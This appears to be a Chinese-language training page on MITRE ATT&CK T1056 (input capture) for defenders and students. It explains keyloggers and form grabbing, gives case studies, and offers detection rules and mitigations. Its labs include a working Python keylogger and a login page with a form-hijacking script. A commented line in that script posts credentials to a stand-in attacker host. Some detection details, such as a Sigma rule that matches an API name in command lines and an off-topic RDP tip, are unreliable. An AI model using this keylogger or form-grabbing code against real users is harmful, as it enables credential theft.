

# 输入捕获 (T1056)

## 一句话通俗理解

攻击者偷偷记录你在键盘上敲的每一个字，就像有人在背后看你输密码。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者偷偷记录你在键盘上敲的每一个字，就像有人在背后看你输密码。 |
| 为什么危险？ | 输入捕获是攻击者获取账号密码的最直接手段。键盘记录器可以捕获用户输入的所有内容——包括用户名、密码、信用卡号、聊天内容、 |
| 谁需要关心？ | 数据安全团队、SOC分析师 |
| 你的第一步防御 | 键盘钩子安装检测 |
| 如果只做一件事 | 你知道电脑上的每个按键——从A到Z、从0到9，甚至删除键——都可以被记录下来吗？攻击者通过在电脑中植 |

## 难度等级

⭐⭐ 中级（需要一定基础）

## 技术描述

输入捕获（T1056）是MITRE ATT&CK框架中收集战术的一种技术。

**通俗解释：**
你知道电脑上的每个按键——从A到Z、从0到9，甚至删除键——都可以被记录下来吗？攻击者通过在电脑中植入"键盘记录器"（Keylogger），把你敲的每一个字都偷偷保存下来，然后发给攻击者。你输入的密码、聊天内容、邮件、搜索记录，全部被一览无余。更高级的输入捕获还包括"表单劫持"——在你填网页表单时截取数据。

**技术原理：**

1. **内核级键盘记录**：在Windows中调用`SetWindowsHookEx`安装低级键盘钩子（WH_KEYBOARD_LL），每按一个键都会触发回调函数记录键位
2. **用户态轮询**：通过循环调用`GetAsyncKeyState`检查每个键的当前状态，记录按下的键
3. **Web表单劫持**：在浏览器中注入JavaScript代码，监听表单`submit`事件，在数据发送到服务器前截取
4. **凭证API钩取**：钩取操作系统的凭据输入API（如Windows的`CredUIPromptForCredentials`），拦截用户输入的登录凭据

**用途与影响：**
输入捕获是攻击者获取账号密码的最直接手段。键盘记录器可以捕获用户输入的所有内容——包括用户名、密码、信用卡号、聊天内容、机密文档内容。表单劫持专门针对在线银行、邮箱、SaaS应用的登录页面，是银行木马的核心功能。

## 子技术列表

**该技术共有 4 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1056.001 | 键盘记录 Keylogging | 记录用户在键盘上的每次击键，最基础的输入捕获方式 |
| T1056.002 | GUI输入捕获 | 通过伪造登录界面捕获用户在界面组件中的输入 |
| T1056.003 | Web门户捕获 | 在被入侵的Web服务器上注入代码，捕获所有表单提交数据 |
| T1056.004 | 凭证API钩取 | 钩取操作系统凭据输入API，拦截通过API提交的凭据 |

<details>
<summary><strong>展开查看各子技术详细说明</strong></summary>

各子技术详细说明请参阅独立文档：

- [T1056.001 - 键盘记录 Keylogging](./T1056/T1056.001-Keylogging-键盘记录 Keylogging.md) — 像在键盘下放了一个迷你录音机，你敲的每个键都被录下来了。
- [T1056.002 - GUI输入捕获](./T1056/T1056.002-GUI Input Capture-GUI输入捕获.md) — 做一个假登录页面（钓鱼页面），你输入的所有信息都被骗子看到了。
- [T1056.003 - Web门户捕获](./T1056/T1056.003-Web Portal Capture-Web门户捕获.md) — 在网站的源代码里做手脚，在你提交表单时多复制一份给攻击者。
- [T1056.004 - 凭证API钩取](./T1056/T1056.004-Credential API Hooking-凭证API钩取.md) — 在操作系统"验证密码"的环节安插了一个窃听器。

</details>

## 攻击流程

### 典型攻击流程

```
植入恶意软件 --> 安装键盘钩子/注入脚本 --> 记录击键/表单数据 --> 缓存日志 --> 外传数据
```



**步骤详解：**

1. **植入恶意软件**
   - 通俗描述：通过钓鱼邮件、恶意下载等方式在目标电脑上安装键盘记录器
   - 技术细节：在用户不知情的情况下安装恶意软件（可能是DLL、驱动程序或脚本）
   - 常用工具：AgentTesla、Ursnif、Cobalt Strike

2. **安装键盘钩子/注入脚本**
   - 通俗描述：在系统中安装一个"监听器"，开始记录键盘输入
   - 技术细节：调用`SetWindowsHookEx(WH_KEYBOARD_LL, ...)`或向浏览器进程注入JavaScript
   - 常用工具：Windows API、DLL注入、浏览器扩展

3. **记录击键/表单数据**
   - 通俗描述：持续记录用户的每一次键盘操作
   - 技术细节：将击键数据、活动窗口标题、时间戳写入日志文件
   - 常用工具：自定义记录器、PowerShell脚本

4. **缓存日志**
   - 通俗描述：把记录的数据先临时存起来，避免频繁发送暴露行踪
   - 技术细节：存放到`%APPDATA%`或内存中，按时间/大小分片存储
   - 常用工具：文件系统、内存缓存

5. **外传数据**
   - 通俗描述：把记录的按键日志发送给攻击者
   - 技术细节：通过HTTPS、SMTP或DNS隧道加密传输日志文件
   - 常用工具：HTTP POST、SMTP邮件、DNS隧道

## 真实案例

### 案例1：Ursnif (Gozi) - 企业级定向键盘记录（2018-2022）

- **时间**: 2018年-2022年
- **目标**: 全球金融机构、保险、医疗行业
- **攻击组织**: Ursnif (Gozi) 银行木马
- **手法**: Ursnif木马使用`SetWindowsHookEx`安装低级键盘钩子（WH_KEYBOARD_LL）记录所有击键。其键盘记录模块支持针对特定窗口标题的定向记录——当目标用户浏览在线银行门户、企业邮箱或SaaS管理面板时，Ursnif记录所有击键序列并提取输入框中的密码、账户号码和交易金额。记录的日志每小时加密回传一次C2。Ursnif还记录剪贴板内容（`GetClipboardData`轮询），捕获用户复制的密码和财务信息。
- **影响**: 全球数十万金融机构用户受害，损失金额达数亿美元
- **参考链接**: [Ursnif Malware Analysis - MITRE](https://attack.mitre.org/software/S0386/)

### 案例2：CrystalRAT MaaS - 新一代键盘记录+剪贴板劫持（2026）

- **时间**: 2026年1月-至今
- **目标**: 全球个人用户和企业
- **攻击组织**: CrystalRAT恶意软件即服务（MaaS）运营者
- **手法**: CrystalRAT是2026年新出现的恶意软件即服务平台，包含完整的键盘记录和剪贴板劫持功能。其键盘记录模块将键击实时传输至C2服务器，通过WebSocket保持长连接。CrystalRAT还包含一个"clipper"工具，使用正则表达式检测剪贴板中的加密货币钱包地址，并替换为攻击者控制的地址。该工具还支持屏幕捕获和音频录制，将输入捕获与其他收集技术相结合。
- **影响**: 通过MaaS模式面向多个攻击者销售，感染了大量用户
- **参考链接**: [CrystalRAT Malware - BleepingComputer 2026](https://www.bleepingcomputer.com/news/security/new-crystalrat-malware-adds-rat-stealer-and-prankware-features/)

### 案例3：CTRL Toolkit - 仿Windows Hello界面的GUI输入捕获（2026）

- **时间**: 2026年2月-至今
- **目标**: 全球个人用户和企业（通过恶意LNK文件传播）
- **攻击组织**: 俄罗斯背景攻击者（CTRL Toolkit运营者）
- **手法**: CTRL Toolkit是一个.NET编写的远程访问工具包，通过伪装成"私钥"文件夹的恶意LNK文件传播。其核心特色是一个仿Windows Hello风格的PIN输入对话框（GUI输入捕获 - T1056.002），当用户被引导输入PIN时，对话框会阻塞Alt+Tab等切换操作，让用户无法察觉异常。输入的PIN被记录到`C:\Temp\keylog.txt`文件中，前缀标记为`[STEALUSER PIN CAPTURED]`。同时，CTRL Toolkit还包含一个系统级键盘记录器（T1056.001），通过Windows键盘钩子记录所有击键，捕获背景中的凭证输入。攻击者通过Fast Reverse Proxy（FRP）建立反向隧道，远程检索记录的输入数据和RDP会话。该工具集还包含凭证窃取模块，使用伪造的Windows登录界面捕获域凭证。
- **影响**: 通过恶意LNK文件传播，结合GUI输入捕获和键盘记录实现双重凭证窃取
- **参考链接**: [CTRL Toolkit Analysis - Censys/Anti-Abuse Project](https://anti-abuse.com/news-insights/russian-ctrl-toolkit-delivered-via-malicious-lnk-files-hijacks-rdp-via-frp-tunnels/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **使用PowerShell实现无文件键盘记录**
   利用.NET的`System.Windows.Forms`命名空间实现无需写入磁盘的键盘记录器。示例：使用`[System.Windows.Forms.Timer]`定期轮询`[System.Windows.Forms.Control]::ModifierKeys`和`[System.Windows.Forms.Clipboard]`。

2. **定向记录减少噪音**
   根据窗口标题只记录目标应用的输入（如只记录浏览器窗口中的击键），减少无用的日志数据，降低被检测的风险。使用`GetForegroundWindow`和`GetWindowText`获取当前活动窗口信息。

3. **绕过现代浏览器保护**
   Chrome和Edge的App-Bound Encryption可以保护存储的密码不被读取，但不影响运行时的键盘钩子。对运行时输入捕获最有效的方式仍然是WH_KEYBOARD_LL钩子或WebSocket劫持。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| SetWindowsHookEx | 安装全局键盘钩子 | Windows | Windows API |
| EvilGinx2 | AiTM钓鱼框架实现凭证捕获 | Linux | https://github.com/kgretzky/evilginx2 |
| Beef | 浏览器利用框架 | Linux | https://beefproject.com/ |

### 注意事项

- Windows Defender和多数EDR会检测`SetWindowsHookEx(WH_KEYBOARD_LL)`的调用
- 键盘记录器必须运行在与目标应用相同的用户上下文中才能捕获该应用的输入
- 现代浏览器（Chrome 127+）的App-Bound Encryption增加了从浏览器存储中提取凭据的难度，但不影响键盘记录

## 蓝队视角

### 检测要点

1. **键盘钩子安装检测**
   - 日志来源：Sysmon Event ID 1（进程创建）
   - 关注字段：`SetWindowsHookEx` API调用
   - 异常特征：非预期的进程（如非浏览器、非输入法程序）安装低级键盘钩子

2. **浏览器中的异常JavaScript注入**
   - 日志来源：浏览器控制台、Web安全网关日志
   - 关注字段：注入的JavaScript代码模式
   - 异常特征：页面中出现监听`submit`事件或修改`form.action`的异常JavaScript

3. **键盘API的异常调用**
   - 日志来源：EDR、API监控
   - 关注字段：`GetAsyncKeyState`、`GetForegroundWindow`、`GetWindowText`的组合使用
   - 异常特征：后台服务进程中频繁调用键盘状态查询API

### 监控建议

- 监控`SetWindowsHookEx`的调用，特别是`WH_KEYBOARD_LL`和`WH_MOUSE_LL`钩子的安装
- 启用PowerShell Script Block Logging，检测使用`[System.Windows.Forms]`命名空间的脚本
- 部署浏览器安全扩展，检测和阻止异常的表单数据劫持

## 检测建议

### 网络层检测

**检测方法：** 监控键盘记录数据的外传流量，特征为小数据包频繁发送。

**示例（Suricata/IDS规则）：**
```
# 检测键盘记录数据外传 - 频繁的小数据包出站连接
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (
    msg:"T1056 - 输入捕获 - 键盘记录数据小包频繁出站";
    flow:to_server;
    content:"POST";
    http_method;
    dsize:<1000;
    threshold:type both, track by_src, count 30, seconds 60;
    sid:1005601; rev:1;
)
```

### 主机层检测

**Windows事件ID：**
- 事件ID 4104：PowerShell Script Block Logging
- Sysmon Event ID 7：DLL加载（检测钩子DLL的加载）
- Sysmon Event ID 1：进程创建

**具体命令示例：**
```bash
# 检测加载了键盘钩子的进程
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=7} | 
    Where-Object { $_.Message -match 'keyboard' -or $_.Message -match 'hook' }
```

### 应用层检测

**用人话说：**

> 输入捕获是攻击者"偷看"你在键盘上敲了什么的间谍行为——通过键盘记录（Hook键盘事件）、GUI输入捕获（伪造登录弹窗）或Web表单劫持（注入JS代码捕获提交内容）来获取用户输入。键盘记录器通过SetWindowsHookEx(WH_KEYBOARD_LL)安装底层键盘钩子，记录所有按键并将日志写入隐藏文件或通过C2回传。这类攻击尤其针对密码输入、聊天记录、搜索内容等敏感信息。检测方法：监控进程安装全局键盘钩子（WH_KEYBOARD_LL）、以及进程读取GetAsyncKeyState或GetForegroundWindow API。安全浏览器应该使用独立于OS级别的输入机制来保护密码输入。
>
> **避坑指南**：只监控外部RDP，忽略内网横向RDP；未区分正常SSH管理连接和异常横向；未启用PowerShell脚本块日志。

**Sigma规则示例：**
```yaml
title: 键盘钩子安装检测
status: experimental
description: 检测进程安装全局键盘钩子（WH_KEYBOARD_LL）
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '.exe'
        CommandLine|contains: 'SetWindowsHookEx'
    condition: selection
level: medium
tags:
    - attack.t1056
    - attack.t1056.001
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 限制全局钩子安装

**具体实施步骤：**
1. 使用组策略限制非管理员用户安装全局钩子
2. 通过AppLocker或WDAC限制不受信任的DLL加载
3. 对浏览器实施保护模式（Chrome Sandbox、Microsoft Defender Application Guard）阻止进程注入

### 优先级2：重要措施

**措施名称：** 使用虚拟键盘和密码管理器

**具体实施步骤：**
1. 在输入敏感信息时使用屏幕虚拟键盘
2. 使用密码管理器自动填充凭据，减少手动输入
3. 对关键系统启用双因素认证，即使密码被记录也无法直接登录

### 优先级3：建议措施

**措施名称：** Web隔离和表单保护

**具体实施步骤：**
1. 部署远程浏览器隔离（RBI）方案
2. 在Web应用中实施内容安全策略（CSP）防止脚本注入
3. 使用Web应用防火墙（WAF）检测异常的表单提交行为

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M0934 | 应用程序隔离和沙盒 | 适用 | 浏览器沙盒阻止注入 |
| M0922 | 用户行为分析 | 适用 | 检测键盘输入异常模式 |
| M0937 | 应用程序控制 | 适用 | 阻止未授权的DLL加载 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| FLARE VM | 恶意软件分析 | 中级 | https://github.com/mandiant/flare-vm |

**所需工具：**
- Windows 10/11虚拟机
- Python
- Sysmon
- 现代浏览器（Chrome/Firefox/Edge）

### 实验1：使用Python编写简单的键盘记录器（中级）

**实验目标：** 编写一个简单的键盘记录器并测试其效果

**实验步骤：**
1. 在隔离的Windows虚拟机中安装Python和`pynput`库
2. 编写以下键盘记录器脚本：
   ```python
   from pynput import keyboard
   log_file = "keylog.txt"
   
   def on_press(key):
       with open(log_file, "a") as f:
           f.write(f"{key}\n")
   
   with keyboard.Listener(on_press=on_press) as listener:
       listener.join()
   ```
3. 运行脚本，在记事本中输入一些文字
4. 查看keylog.txt文件，验证所有击键被记录

**预期结果：** 所有键盘输入被成功记录到文件中

**学习要点：** 理解键盘记录器的基本原理和实现方式

### 实验2：模拟Web表单注入捕获（中级）

**实验目标：** 创建测试网页，演示攻击者如何通过在页面中注入JavaScript来捕获表单提交数据

**实验步骤：**
1. 在本地搭建一个简单的测试登录页面（使用Python的HTTP服务器）：
   ```bash
   # 创建测试目录和HTML文件
   mkdir web_inject_test && cd web_inject_test
   ```
2. 创建以下模拟登录页面（`login.html`），其中包含"恶意"的表单劫持脚本：
   ```html
   <!DOCTYPE html>
   <html>
   <head><title>安全登录演示</title></head>
   <body>
     <h2>企业邮箱登录</h2>
     <form id="loginForm">
       <p>用户名: <input type="text" id="username" name="username"></p>
       <p>密码: <input type="password" id="password" name="password"></p>
       <p><input type="submit" value="登录"></p>
     </form>
     <div id="log" style="border:1px solid #ccc; padding:10px; margin-top:20px; 
          background:#f5f5f5; font-family:monospace; white-space:pre-wrap;"></div>

     <script>
       // 模拟攻击者注入的JavaScript劫持代码（T1056.003）
       document.getElementById('loginForm').addEventListener('submit', function(e) {
         e.preventDefault();  // 阻止表单正常提交
         var captured = {
           timestamp: new Date().toISOString(),
           username: document.getElementById('username').value,
           password: document.getElementById('password').value
         };
         // 显示捕获的数据（攻击者实际会发送到C2服务器）
         document.getElementById('log').textContent += 
           '[捕获时间] ' + captured.timestamp + '\n' +
           '[用户名] ' + captured.username + '\n' + 
           '[密码] ' + captured.password + '\n' +
           '--- 数据已发送到攻击者服务器 ---\n\n';
         // 模拟数据发送到攻击者C2
         // fetch('https://attacker-c2.com/steal', { method: 'POST', body: JSON.stringify(captured) });
         alert('登录失败，请重试'); // 让用户以为只是登录失败
       });
     </script>
   </body>
   </html>
   ```
3. 启动本地服务器并在浏览器中访问：
   ```bash
   python -m http.server 8080
   ```
4. 在浏览器中打开 `http://localhost:8080/login.html`，输入测试凭据后提交

**预期结果：** 提交表单后，页面显示捕获的用户名和密码，而用户看到的是"登录失败"提示

**学习要点：** 理解Web表单劫持（T1056.003）的工作原理——攻击者通过注入JavaScript监听表单提交事件，在数据到达服务器前截取，同时让用户以为操作失败以隐藏攻击行为

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 键盘钩子 | Keyboard Hook | 操作系统的一种通知机制，当有键盘事件发生时可以通知指定的程序 |
| 键盘记录器 | Keylogger | 专门记录键盘按键的恶意软件或功能 |
| 表单劫持 | Form Grabbing/Web Inject | 在网页表单提交时截取用户输入的数据 |
| API钩取 | API Hooking | 拦截应用程序调用操作系统的API函数的技术 |
| DLL注入 | DLL Injection | 让一个进程加载恶意DLL的技术，就像给程序"加料" |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1056](https://attack.mitre.org/techniques/T1056/)
- [MITRE ATT&CK - T1056.001](https://attack.mitre.org/techniques/T1056/001/)
- [MITRE ATT&CK - T1056.002](https://attack.mitre.org/techniques/T1056/002/)
- [MITRE ATT&CK - T1056.003](https://attack.mitre.org/techniques/T1056/003/)
- [MITRE ATT&CK - T1056.004](https://attack.mitre.org/techniques/T1056/004/)

### 安全报告

- [Ursnif Malware Analysis - MITRE](https://attack.mitre.org/software/S0386/)
- [CrystalRAT Malware - Kaspersky 2026](https://securelist.com/crystalx-rat-with-prankware-features/119283/)
- [CTRL Toolkit Analysis - Censys/Anti-Abuse Project](https://anti-abuse.com/news-insights/russian-ctrl-toolkit-delivered-via-malicious-lnk-files-hijacks-rdp-via-frp-tunnels/)
- [Snake Keylogger Variant - Fortinet 2025](https://www.fortinet.com/blog/threat-research/fortisandbox-detects-evolving-snake-keylogger-variant)

### 工具与资源

- [SetWindowsHookEx 文档](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)
- [EvilGinx2](https://github.com/kgretzky/evilginx2) - AiTM钓鱼框架
